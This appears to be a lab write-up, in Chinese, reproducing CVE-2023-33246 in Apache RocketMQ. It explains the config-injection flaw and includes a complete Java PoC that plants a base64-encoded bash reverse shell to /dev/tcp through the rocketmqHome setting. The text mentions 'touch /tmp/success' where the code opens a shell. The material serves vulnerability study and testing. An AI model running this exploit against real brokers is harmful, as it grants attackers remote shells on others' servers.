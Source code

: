 # Apache RocketMQ 远程命令执行漏洞（CVE-2023-33246）

Apache RocketMQ是一个分布式消息平台。

在其5.1.0版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

参考链接：

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>

## 启动

执行如下命令启动一个RocketMQ 5.1.0:

```shell
docker compose up -d
```

## 漏洞复现

使用`IDEA`或`Eclipse`等`IDE`新建一个`Maven`项目，导入依赖：

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC如下：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.227.128";
        String targetPort = "10911";

        String shellHost = "192.168.227.128";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

在控制台成功输出新的配置后，请等待30秒左右，将可以看到`touch /tmp/success`已成功被执行：

![](screenshot.png)

## 简单分析

为什么要修改`filterServerNums`属性：如果配置的`filterServerNums`为0，计算得出的`more`也会是0，因此无法进入`callShell`方法执行命令。

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

为什么要修改`rocketmqHome`属性：在构建命令的时候，最终会调用`splitShellString`方法按照空格对参数进行分割，所以不可以是`NamesrvAddr`参数，只能是开头的`rocketmqHome`参数，但是由于参数分割规则，所以需要更严格的命令和巧妙的技巧才可以执行。

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```